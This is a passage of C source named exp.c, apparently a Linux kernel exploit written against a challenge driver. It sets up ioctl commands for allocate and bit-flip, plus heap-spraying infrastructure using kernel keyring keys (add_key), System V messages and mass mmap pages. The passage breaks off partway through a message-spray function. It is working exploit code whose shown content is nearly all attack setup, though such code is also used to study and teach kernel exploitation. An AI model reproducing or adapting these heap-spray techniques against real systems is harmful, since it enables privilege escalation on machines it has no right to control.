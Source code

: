 ### `exp.c`

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <sched.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <assert.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <sys/msg.h>
#include <sys/ipc.h>
#include "keyutils.h"

#define CMD_ALLOC 0x13370000
#define CMD_FLIP  0x13370001

static void perror_exit(const char *msg)
{
    perror(msg);
    exit(1);
}

#define PAGE_SIZE 0x1000
#define MAX_MSGS 256
#define MAX_KEYS 199
#define MAX_MMAP 800
#define SUB_MMAP 16
#define MB (0x100000)

void *mmap_ptrs[MAX_MMAP][SUB_MMAP];
int keys[MAX_KEYS];
int msgs[MAX_MSGS];
int target_fd;
int dev_fd;

struct msg
{
    long mtype;
    char mtext[];
};

int alloc_key(int index, char *payload, int size)
{
    char desc[32] = { 0 };
    int key;

    assert(size >= 0x18);

    size -= 0x18;
    sprintf(desc, "pay%d", index);

    key = add_key("user", desc, payload, size, KEY_SPEC_PROCESS_KEYRING);
    if (key == -1)
        perror_exit("add_key");

    return key;
}

long spray_msg(int size, struct msg *msg)
```